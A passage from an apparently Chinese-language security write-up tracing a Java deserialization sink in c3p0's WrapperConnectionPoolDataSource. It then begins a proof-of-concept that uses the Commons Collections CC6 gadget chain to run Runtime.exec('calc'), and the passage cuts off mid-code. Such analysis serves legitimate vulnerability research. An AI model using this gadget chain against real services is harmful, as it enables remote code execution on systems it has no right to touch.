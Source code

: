 ```
public static Object fromByteArray(byte[] var0) throws IOException, ClassNotFoundException {
        Object var1 = deserializeFromByteArray(var0);
        return var1 instanceof IndirectlySerialized ? ((IndirectlySerialized)var1).getObject() : var1;
    }
```

触发了 `deserializeFromByteArray` 方法，然后判断反序列化后的对象 `var1` 是否是 `IndirectlySerialized` 类型，如果是则调用其 `getObject` 方法，如果不是则直接返回 `var1`

继续跟进 `deserializeFromByteArray` 

```
public static Object deserializeFromByteArray(byte[] var0) throws IOException, ClassNotFoundException {
        ObjectInputStream var1 = new ObjectInputStream(new ByteArrayInputStream(var0));
        return var1.readObject();
    }
```

这里直接反序列化了

ok 看下怎么传参，参数是由 `getUserOverridesAsString()` 方法获得的，可以用其 setter 方法来赋值

![image-20250316202100033](https://bu.dusays.com/2025/03/18/67d95ec4710ff.png)

#### poc

随便拿条链子，我这里拿cc6，相较于其他cc链，cc6用的更多一点

```
package org.example;

import com.mchange.v2.c3p0.WrapperConnectionPoolDataSource;
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;
import java.io.*;
import java.util.HashMap;
import java.util.Map;
import java.lang.reflect.Field;


public class c3p0_hexbase {
    public static void main(String[] args)throws Exception {

        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer(&#34;getMethod&#34;, new Class[]{String.class, Class[].class}, new Object[]{&#34;getRuntime&#34;, null}),
                new InvokerTransformer(&#34;invoke&#34;, new Class[]{Object.class, Object[].class}, new Object[]{null, null}),
                new InvokerTransformer(&#34;exec&#34;, new Class[]{String.class}, new Object[]{&#34;calc&#34;}),
        };

        ChainedTransformer cha = new ChainedTransformer(transformers);
        HashMap&lt;Object, Object&gt; map = new HashMap&lt;&gt;();
        Map&lt;Object, Object&gt; Lazy = LazyMap.decorate(map,new ConstantTransformer(1));

        TiedMapEntry Tie=new TiedMapEntry(Lazy,&#34;aaa&#34;);
        HashMap&lt;Object,Object&gt; hashmap = new HashMap&lt;&gt;();
        hashmap.put(Tie,&#34;test&#34;);
        Class&lt;LazyMap&gt; lazyMapClass = LazyMap.class;
```